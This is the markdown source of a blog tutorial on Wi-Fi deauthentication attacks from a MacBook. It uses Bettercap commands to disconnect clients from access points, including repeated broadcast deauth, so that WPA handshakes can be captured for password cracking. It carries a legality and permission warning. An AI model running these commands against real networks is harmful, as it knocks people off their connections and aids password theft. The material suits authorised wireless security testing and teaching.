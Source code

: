 ```yaml
---
published: true
layout: single
title: Hacking. Wi-Fi Deauthentification attack on MacOS
excerpt: >-
  Probably all Apple computers with wireless cards are capable to use monitoring and de-authentication mode. BetterCAP is an amazing, adaptable, and convenient tool made to perform a different type of WiFi attack.
categories: sysad
tags: wifi security linux macos
toc: true
# header:
#   teaser: /assets/images/selenium/selenium_python_logo.png
#   og_image: /assets/images/selenium/selenium_python_logo.png
---
```


> Disclaimer: this post for education purposes only.

Probably all Apple computers with wireless cards are capable to use monitoring and de-authentication mode. Please note that de-authentication it’s the same as a denial of service. It’s illegal in many places and you might get in trouble. So, make sure you have permission to do so.

Also, there is a native command-line tool, airport (and [this guide][part1] how to capture WPA with it).

In this write-up, I will focus on capturing WPA handshakes with MacBook and [Bettercap][bettercap].

## prerequisites

You need the [Homebrew](https://brew.sh/) package manager installed. If you don’t have it, use the one-liner below to install it. It will also install Xcode command line tools and all necessary dependencies. You will need to enter your administrator password and it will take up to 5 minutes:

```
/usr/bin/ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"
```


## installation

Once you have Homebrew you proceed with the command below to install Bettercap:
```
brew install bettercap
```

## running

Now, we can run Bettercap to look at what is around us. Please note that as an interface adapter I am using a new MacBook Pro, which has the Wireless adapter as `en0`. In your case, it might be `en1`. Check yours here `🍎 > About this mac > System Report > Network > Wi-Fi):

1. Disassociate a network
```
sudo airport -z
```

2. Run bettercap
```
sudo bettercap -iface en0
```

3. Start discovering Access Points around you
```
wifi.recon on
```

After that you will sniff all traffic tranmitting around you:
[![bettercap-monitor]({{ site.baseurl }}/assets/images/wifi-crack/bettercap-monitor.png)]({{ site.baseurl }}/assets/images/wifi-crack/bettercap-monitor.png){: .align-center}

4. To see access points around you use the following command
```
wifi.show
```

[![wifi-show]({{ site.baseurl }}/assets/images/wifi-crack/wifi-show.png)]({{ site.baseurl }}/assets/images/wifi-crack/wifi-show.png){: .align-center}

5. Now, let’s send deauthentication packets to networks. `wifi.deauth` starts sending [deauth packets][deauth] to the specified (BSSID) of the access point

Open networks are those which aren’t protected by a passphrase.
```
set wifi.deauth.open true
wifi.deauth all
```

Or deauth only one Access Point with `11:11:11:11:11:11` BSSID
```
wifi.deauth 11:11:11:11:11:11
```

You can also to opt the broadcast to address `FF:FF:FF:FF:FF:FF`.

To repeat it every 3 seconds run this
```
set ticker.period 3
set ticker.commands wifi.deauth 11:11:11:11:11:11
ticker on
```

[![wifi-deauth]({{ site.baseurl }}/assets/images/wifi-crack/wifi-deauth.png)]({{ site.baseurl }}/assets/images/wifi-crack/wifi-deauth.png){: .align-center}

A client has reauthenticated after being deauthenticated by bettercap and a handshake can be captured to [hack password](part1) or smth.else.

## conclusion

Bettercap has many more functionalities that can be used in a network attack, monitoring, or testing process. These include password sniffer, fake access point creation, handshake capture, Wi-Fi networks monitoring, bettercap webserver, DNS spoofer, transparent HTTP proxy, TCP proxy, logging, and many more. In this article I would show the one aspect of the tool - deauthenticate clients from AP.

If you have any questions on any of the modules that bettercap offers I suggest you visit [bettercap.org](https://www.bettercap.org) and read the documentation.

## additional information

* [Youtube Video](https://www.youtube.com/watch?v=G6MXOzGIJZ4) - video example of hacking WiFi password
* [Issue in GitHub about kernel panic](https://github.com/bettercap/bettercap/issues/448) - some MacBooks has a problem to run bettercap
* [Wikipedia. Wi-Fi deauthentication attack](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack) - some information about basic of attack

[bettercap]: https://www.bettercap.org/intro/
[part1]: {% post_url 2020-07-17-wifi-cracking.md %}
[deauth]: https://mrncciew.com/2014/10/11/802-11-mgmt-deauth-disassociation-frames/